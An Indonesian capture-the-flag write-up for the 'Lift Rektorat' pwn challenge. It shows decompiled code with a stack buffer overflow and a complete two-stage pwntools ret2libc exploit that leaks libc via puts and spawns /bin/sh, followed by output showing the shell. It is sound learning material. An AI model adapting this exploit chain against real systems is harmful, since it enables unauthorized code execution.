 ```yaml
---
title: AgriHack 0x2 - Lift Rektorat Writeup
url: 348.html
id: 348
categories:
  - pwn
date: 2017-11-24 00:38:01
tags:
---
```


> _**Lift Rektorat (300 pts)**_ Kamu sedang berada direktorat karena kamu hendak menemui rektor karena kamu ditunjuk menjadi kepala keamanan cyber di IPB. Tiba-tiba terjadi sebuah insiden yang membuat kamu tersadar, bahwa bahkan lift rektorat memiliki celah untuk dieksploitasi. Tunjukkan bagaimana kamu mengeksploitasi celah tersebut. -- binary --

_**Solusi:**_ Diberikan binary ELF 32-bit dengan NX bit enabled dan tanpa stack canary. Dapat di-_ramal-_kan sekiranya soal ini di_solve_ dengan return to libc karena stack sendiri tidak dapat dieksekusi.

```C
unsigned int danger()
{
  char s; // [esp+Eh] [ebp-4Ah]

  strcpy(aSelamatDatangD, "|            Peringatan Bahaya Lift Berhenti Berfungsi                |");
  strcpy(aSilahkanMasuka, "|              Silahkan Kirimkan Pesan Kepada Petugas                 |");
  cetak(0);
  puts("|--------------------||-------------||------------||------------------|");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|____________________||-------------||------------||__________________|");
  printf("Pesan : ");
  fgets(&s, 200, stdin);
  strcpy(aSelamatDatangD, "|                        Pesan Terkirim                               |");
  strcpy(aSilahkanMasuka, "|            Silahkan Menunggu Sejenak dan Tetap Tenang               |");
  cetak(0);
  puts("|--------------------||-------------||------------||------------------|");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|                    ||             ||            ||                  |");
  puts("|____________________||-------------||------------||__________________|");
  return sleep(5u);
}

int __cdecl main(int argc, const char \*\*argv, const char \*\*envp)
{
  int v3; // ST08_4
  int v4; // ST0C_4
  int v6; // [esp-4h] [ebp-28h]
  int v7; // [esp+0h] [ebp-24h]
  char v8; // [esp+7h] [ebp-1Dh]
  int i; // [esp+8h] [ebp-1Ch]
  int *v10; // [esp+14h] [ebp-10h]

  v10 = &argc;
  setvbuf(stdout, 0, 2, 0);
  cetak(0);
  if ( !__isoc99_scanf("%d", &v7, v3, v4, v6, v7) || v7 > 12 )
  {
    strcpy(aSelamatDatangD, "|                          Mohon Maaf                                 |");
    strcpy(aSilahkanMasuka, "|                 Lantai yang Anda Masukan Salah                      |");
    cetak(0);
    puts("|--------------------||-------------||------------||------------------|");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|____________________||-------------||------------||__________________|");
    exit(0);
  }
  do
    v8 = getchar();
  while ( v8 != 10 && v8 != -1 );
  strcpy(aSelamatDatangD, "|                     Bogor Agricultural University                   |");
  strcpy(aSilahkanMasuka, "|                     Searching and Serving The Best                  |");
  for ( i = 1; i <= v7; ++i )
  {
    sleep(2u);
    byte_804B0C4[5 * i - 2] = ' ';
    byte_804B0C4[5 * i + 2] = ' ';
    byte_804B0C4[5 * (i + 1) + 2] = '|';
    byte_804B0C4[5 * (i + 1) - 2] = '|';
    cetak(i);
    puts("|--------------------||-------------||------------||------------------|");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|                    ||             ||            ||                  |");
    puts("|____________________||-------------||------------||__________________|");
    if ( i == 7 )
    {
      danger();
      strcpy(aSelamatDatangD, "|                     Bogor Agricultural University                   |");
      strcpy(aSilahkanMasuka, "|                     Searching and Serving The Best                  |");
    }
  }
  cetak(i - 1);
  puts("|--------------------||                           ||------------------|");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|                    ||                           ||                  |");
  puts("|____________________||                           ||__________________|");
  return 0;
}
```

Terlihat kalau dalau dari source code, fungsi `danger` ada bug klasik stack buffer overflow pada fungsi fgets, yang me-overflow- `char s`. `danger` sendiri dipanggil saat iterasi i ke-7, user juga dapat mengontrol sampai berapa iterasi dilaksanakan. Lanjut ke permasalahan kedua, saved EIP bisa dikontrol dengan stack buffer overflow, tapi mau return kemana? return2libc perlu leaked libc address. Nah, teringat kalau binary ini adalah 32-bit jadi gaperlu repot-repot setup ROP yang terlihat magis, tinggal push GOT puts ke stack, trus print dengan menggunakan PLT puts _lagi_. Agar exploit berlanjut terus jangan lupa untuk return ke fungsi `danger` lagi untuk lanjut ke Stage ke-2 yakni return ke system dan exec /bin/sh. system address bisa dikalkulasi dengan bantuan libcdb. Dengan demikian strategi yang bisa ditulis pada code,

1.  Leak libc address, dengan push alamat suatu GOT lalu memanggil puts dan kembali ke danger
2.  Kalkulasi system dan /bin/sh dari libc address
3.  Input buffer == junk[78] + system + char junk[4] +  binsh
4.  profit

Berikut codenya,

```python
#!/usr/bin/python2
from pwn import *
r = process(['./lift_rektorat'])
lift = ELF('./lift_rektorat')

log.info('--------- STAGE 1 ---------')

buf = "A" * 78 #junk
buf += p32(lift.plt['puts']) # call puts
buf += p32(lift.symbols['danger']) # return back to danger
buf += p32(lift.got['puts']) # GOT

r.sendline("7") # control the iteration
r.sendline(buf)
r.recvuntil('Pesan Terkirim')
r.recvuntil('|____________________||-------------||------------||__________________|')
r.recvline()

log.info('--------- STAGE 2 ---------')

libc_puts = int(u32(r.recvn(4))) # leaked libc address
# local libc, saelo's vm ctfbox, Ubuntu 14.04.5 LTS, vagrant
puts_offset = 0x00064da0
system_offset = 0x0003fe70
str_bin_sh_offset = 0x0015ff0c

libc_base = libc_puts - puts_offset
libc_system = libc_base + system_offset
libc_bin_sh = libc_base + str_bin_sh_offset

buf = "A" * 78 # junk
buf += p32(libc_system)
buf += "DEAD" # junk
buf += p32(libc_bin_sh)

r.sendline(buf)
r.interactive()
```

_**$profit**_

```
[+] Starting local process './lift_rektorat': pid 5802
[*] '/home/vagrant/ctf/agrihack0x2/lift_rektorat'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] --------- STAGE 1 ---------
[*] --------- STAGE 2 ---------
[*] Switching to interactive mode
\x86\x84\x0�    ]��a��`�
[..redacted..]
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
$ whoami
vagrant
```

_**Solved!**_

* * *

Sedikit cerita dibalik penemuan flag pada soal kali ini, sebelum saya mengerjakan soal ini sendiri, saya belum paham apa itu ROP dan berbagai macam permasalahan pada soal disini. **Lesson learned:** 32-bit calling convention, ret2libc, simple ROP.